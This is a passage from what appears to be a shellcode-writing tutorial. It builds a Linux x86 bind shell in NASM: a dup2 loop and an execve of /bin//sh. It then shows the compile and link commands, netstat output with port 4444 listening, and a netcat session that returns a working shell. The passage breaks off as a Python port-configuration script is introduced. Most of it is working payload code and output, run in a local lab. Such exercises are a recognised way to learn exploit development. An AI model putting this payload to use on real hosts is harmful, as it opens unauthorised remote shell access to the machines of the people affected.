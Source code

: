 ```nasm
    dup:
        xor eax, eax
        mov al, 0x3f    ;dup system call number 
        mov ebx, esi    ;mov the fd variable in ebx
        dec cl          ;dec to cl 1
        int 0x80        ;Go for it
        inc cl          ;inc to cl 1
        loop dup

    ;execve("/bin/sh", NULL, NULL);
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f     ;push "/bin//sh" on the stack
    mov al, 0xb         ;execve system call number
    mov ebx, esp        ;initialize execve first parameters with a pointer to /bin//sh
    xor ecx, ecx        ;NULL
    xor edx, edx        ;NULL
    int 0x80            ;Go for it
```

Let's compile and execute it: 
```console
kali@kali:/tmp/$ nasm -f elf32 -o bind_shell.o bind_shell.nasm
kali@kali:/tmp/$ ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
kali@kali:/tmp/$ ./bind_shell
```

We can check if the port 4444 is open using netstat:
```console
kali@kali:/tmp$ netstat -antp | grep 4444
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      1659/./bind_shell 
```

We can now connect to this new port using for example netcat and get our shell:
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
pwd
/tmp
```

# Second step: make the port configuration easy

Before explaining the python script used for this task, we need to retrieve the hexadecimal format of our shellcode. But instead of a simple '\x' before our hexadecimal value, we will need two of them '\\\x'. 
